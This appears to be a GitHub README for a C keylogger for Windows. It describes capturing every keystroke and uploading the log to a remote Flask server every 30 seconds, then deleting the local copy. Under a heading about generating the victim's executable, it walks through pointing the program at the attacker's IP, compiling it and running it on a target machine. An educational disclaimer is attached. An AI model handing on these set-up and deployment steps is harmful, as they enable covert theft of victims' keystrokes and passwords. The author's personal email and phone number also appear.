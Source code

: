 
# 🖥️ Windows Keylogger Proof of Concept

A simple Windows-based keylogger developed in C, capturing keyboard strokes in real-time, storing them locally, and uploading the log file to a remote Flask server every 30 seconds for analysis.

---

## 📌 Features

- ✅ Records every keystroke typed on the machine  
- ✅ Saves all keystrokes to a local `keys.log` file  
- ✅ Automatically uploads the log file to a remote server via HTTP POST  
- ✅ Deletes local log file after successful upload  
- ✅ Minimal, native implementation using WinHTTP API  

---

## ⚠️ Disclaimer

This project is built strictly for **educational and security research purposes**.  
**Do not use this tool on systems you do not own or have explicit permission to test.** Unauthorized use is illegal and unethical.

---

## 📷 Demo

![keyloger](https://github.com/Sergeb250/Windows_KeyLogger/blob/e82d3122af87a577cac28aeaa64a9375153e1363/Screenshot%202025-06-17%20193924.png)

---

## 📑 Requirements

- Windows OS  
- C compiler (MSVC or MinGW)
- Python 3 (for the Flask server)

---

## 📦 Usage

### 📌 Server (Python)

```bash
sudo python3 server.py
```
📌 GENERATING ViCTIM's .exe (Windows C program)

 Configure the Client (Windows Keylogger)
Before compiling the C program, edit the following line in KeyloggerV3.c:

```c

#define SERVER_NAME L"192.168.43.178"
```
➡️ Replace 192.168.43.178 with your attacker's/server machine IP address.
Compile using:

```bash

sudo x86_64-w64-mingw32-gcc -o keylogger.exe KelogerV2.c -lwinhttp

```
Run KeyloggerV3.exe on target machine (for authorized testing only)

👤 Author

Serge Benit

📧 haksergeb@gmail.com

📱 +250 791 822 315

🌐 GitHub: Sergeb250
